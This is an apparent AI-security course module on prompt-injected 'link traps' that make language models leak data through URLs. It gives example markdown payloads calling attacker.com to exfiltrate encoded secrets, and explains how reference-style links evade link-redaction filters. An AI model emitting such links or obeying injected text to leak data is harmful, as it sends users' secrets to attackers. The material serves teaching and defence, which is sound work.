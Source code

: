 # Module 8: Link Traps & Malicious URLs

**Category:** AI/ML Security
**Difficulty:** Intermediate
**Points:** 150
**OWASP Classification:** LLM01:2025 (Prompt Injection), LLM02:2025 (Sensitive Information Disclosure)

---

## Theory

### What Are AI-Generated Link Traps?

AI-generated link traps involve manipulating Large Language Models to produce malicious URLs that:
- **Exfiltrate Sensitive Data:** URLs embed secrets in query parameters, subdomains, or paths
- **Phishing Links:** AI outputs links disguised as legitimate resources
- **Link Masking:** Display text differs from actual URL destination
- **Unicode/Encoding Tricks:** Zero-width spaces, homoglyphs, URL format abuse
- **Auto-Load Exploits:** Images/scripts that trigger browser requests without user interaction

The AI becomes an unwitting phishing intermediary or data leakage channel through prompt injection attacks that cause it to generate malicious links.

### Attack Vectors

#### 1. Markdown Image Exfiltration (Primary Technique)
**Mechanism:**
```markdown
![Innocent Alt Text](https://attacker.com/collect?data=base64-encoded-secrets)
```

- LLM outputs markdown image tag pointing to attacker-controlled domain
- Browser automatically fetches image URL (zero-click exfiltration)
- Sensitive data encoded in URL parameters, subdomains, or path
- Works across web and mobile platforms

**Impact:** Data leakage without user awareness. Even if image fails to load, HTTP request containing secrets is already sent.

---

#### 2. Reference-Style Markdown Bypass
**Mechanism:**
```markdown
[Click for details][ref]

[ref]: https://attacker.com/exfil?data=secrets
```

- Uses markdown reference syntax instead of inline links
- Bypasses security controls that only detect inline `[text](url)` patterns
- Exploited in CVE-2025-32711 (EchoLeak) to evade Microsoft's link redaction
